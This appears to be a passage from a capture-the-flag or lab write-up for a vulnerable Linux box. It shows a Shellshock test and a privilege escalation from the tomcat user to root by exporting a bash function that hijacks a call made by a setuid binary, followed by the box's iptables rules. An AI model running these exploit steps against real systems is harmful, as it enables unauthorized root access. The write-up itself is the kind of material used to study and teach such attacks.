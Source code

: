 	strings /usr/bin/nightmare
	...
	/usr/bin/sl -al <== HERE
	/usr/bin/aafire
	...



## Exploit shellshock bash-4.2

	bash-4.2$ env x='() { :;}; echo vulnerable' bash -c "echo test"
	bash-4.2$ id
	uid=91(tomcat) gid=91(tomcat) groups=91(tomcat) context=system_u:system_r:tomcat_t:s0
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl
	bash-4.2$ /usr/bin/nightmare
	[+] Again [y/n]? ^Cbash-4.2# id
	uid=0(root) gid=0(root) groups=0(root),91(tomcat) context=system_u:system_r:tomcat_t:s0




# Box

## iptables

	bash-4.2# iptables -L
	Chain INPUT (policy DROP)
	target     prot opt source               destination         
	ACCEPT     all  --  anywhere             anywhere            
	ACCEPT     all  --  anywhere             anywhere             state RELATED,ESTABLISHED
	ACCEPT     tcp  --  anywhere             anywhere             state NEW tcp dpt:ftp
	ACCEPT     tcp  --  anywhere             anywhere             state NEW tcp dpt:etlservicemgr
	ACCEPT     tcp  --  anywhere             anywhere             state NEW tcp dpt:8009

	Chain FORWARD (policy DROP)
	target     prot opt source               destination         

	Chain OUTPUT (policy ACCEPT)
	target     prot opt source               destination         
	ACCEPT     all  --  anywhere             anywhere            
	ACCEPT     all  --  anywhere             anywhere             state RELATED,ESTABLISHED
	DROP       all  --  anywhere             anywhere             owner UID match sleepy



	bash-4.2# cat  /etc/sysconfig/iptables
	# sample configuration for iptables service
	# you can edit this manually or use system-config-firewall
	# please do not ask us to add additional ports/services to this default configuration
	*filter
	:INPUT DROP [0:0]
	:FORWARD DROP [0:0]
	:OUTPUT ACCEPT [0:0]
	-A INPUT -i lo -j ACCEPT
	-A OUTPUT -o lo -j ACCEPT
